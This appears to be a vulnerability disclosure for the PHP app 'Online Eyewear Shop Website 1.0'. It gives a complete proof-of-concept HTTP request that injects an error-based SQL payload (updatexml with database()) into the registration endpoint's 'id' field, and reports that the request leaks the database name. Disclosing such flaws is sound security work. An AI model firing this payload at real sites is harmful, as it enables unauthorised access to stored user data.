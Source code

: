 ## Online Eyewear Shop Website has a front-end SQL injection vulnerability

## Affected version: 
Online Eyewear Shop Website - 1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
/oews/classes/Users.php?f=registration

## Description:
The online eyewear store website 1.0 has a SQL injection attack in the id parameter in the route /oews/classes/Users.php?f=registration. Attackers can exploit this vulnerability to directly obtain sensitive information from the server.

Status: CRITICAL

POC
```
POST /oews/classes/Users.php?f=registration HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------253095177828050286912619499488
Content-Length: 1219
Origin: http://localhost
Connection: close
Referer: http://localhost/oews/?p=user
Cookie: PHPSESSID=4bo37p217s2osfnh7ovs48s6p9
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------253095177828050286912619499488
Content-Disposition: form-data; name="id"

1' and updatexml(1,concat(0x7e,(database())),3)-- q
-----------------------------253095177828050286912619499488
Content-Disposition: form-data; name="firstname"

Mark
-----------------------------253095177828050286912619499488
Content-Disposition: form-data; name="middlename"

D
-----------------------------253095177828050286912619499488
Content-Disposition: form-data; name="lastname"

Cooper
-----------------------------253095177828050286912619499488
Content-Disposition: form-data; name="gender"

Male
-----------------------------253095177828050286912619499488
Content-Disposition: form-data; name="email"

mcooper@mail.com
-----------------------------253095177828050286912619499488
Content-Disposition: form-data; name="contact"

0912356498
-----------------------------253095177828050286912619499488
Content-Disposition: form-data; name="password"


-----------------------------253095177828050286912619499488
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------253095177828050286912619499488--
```

Get the database name directly through the error report: oews_db

![CleanShot 2025-03-18 at 13 30 53@2x](https://github.com/user-attachments/assets/581f0a52-a3b1-4b3a-9101-c0004c591db2)

## Code Analysis
The id parameter is controllable and directly introduced into the SQL statement, causing a SQL injection vulnerability.
![CleanShot 2025-03-18 at 13 31 34@2x](https://github.com/user-attachments/assets/80d82932-c85a-4a25-9922-28ad09f7f866)


